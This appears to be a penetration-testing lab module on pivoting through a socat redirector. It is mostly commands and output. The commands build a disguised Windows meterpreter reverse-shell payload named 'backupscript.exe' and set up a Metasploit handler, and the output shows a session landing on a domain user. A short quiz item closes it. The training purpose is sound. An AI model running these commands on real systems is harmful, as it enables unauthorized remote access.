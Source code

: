 # Socat Redirection with a Reverse Shell

[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. We can start Metasploit's listener using the same command mentioned in the last section on our attack host, and we can start `socat` on the Ubuntu server.

**Starting Socat Listener**

Socat Redirection with a Reverse Shell

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Socat will listen on localhost on port `8080` and forward all the traffic to port `80` on our attack host (10.10.14.18). Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our Ubuntu server. We will also start a listener on our attack host because as soon as socat receives a connection from a target, it will redirect all the traffic to our attack host's listener, where we would be getting a shell.

**Creating the Windows Payload**

Socat Redirection with a Reverse Shell

```shell-session
AIceBear@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

Keep in mind that we must transfer this payload to the Windows host. We can use some of the same techniques used in previous sections to do so.

**Starting MSF Console**

Socat Redirection with a Reverse Shell

```shell-session
AIceBear@htb[/htb]$ sudo msfconsole

<SNIP>
```

**Configuring & Starting the multi/handler**

Socat Redirection with a Reverse Shell

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

We can test this by running our payload on the windows host again, and we should see a network connection from the Ubuntu server this time.

**Establishing the Meterpreter Session**

Socat Redirection with a Reverse Shell

```shell-session
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

SSH tunneling is required with Socat. True or False?

False
